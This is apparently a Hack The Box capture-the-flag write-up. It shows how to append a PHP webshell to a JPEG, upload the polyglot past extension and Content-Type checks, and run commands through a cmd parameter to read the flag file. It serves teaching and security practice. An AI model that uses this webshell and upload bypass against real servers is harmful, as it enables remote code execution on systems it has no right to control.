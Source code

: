  HTB File Upload Assessment – RCE via Image Polyglot
🧰 1. Prepare a polyglot payload
Start with a valid JPEG image

Append a PHP webshell:


echo "<?php system(\$_REQUEST['cmd']); ?>" >> test_image.phar.jpg
✅ Result: test_image.phar.jpg is a valid image + executable PHP

📤 2. Upload the polyglot image
Use Burp or intercept the browser request

Submit test_image.phar.jpg through the /contact/upload.php endpoint

Ensure:

Filename ends in .jpg or .png

No .php or .phps in the name

Content-Type: image/jpeg or image/png

🗂️ 3. Find uploaded image’s path
Uploaded files are saved with:


/contact/user_feedback_submissions/[YYMMDD]_[filename]
Example:


/contact/user_feedback_submissions/250325_test_image.phar.jpg
💥 4. Trigger remote code execution
Visit the image URL:


http://<IP>:<PORT>/contact/user_feedback_submissions/250325_test_image.phar.jpg?cmd=id
If the server executes your PHP → ✅ RCE confirmed

🔍 5. Enumerate to find the flag
Use:


?cmd=ls /
Then:


?cmd=ls / | grep flag
You’ll find something like:


flag_example.txt
🎯 6. Exfil the flag
Run:

bash

?cmd=cat /flag_example9.txt
💣 Boom → challenge complete.
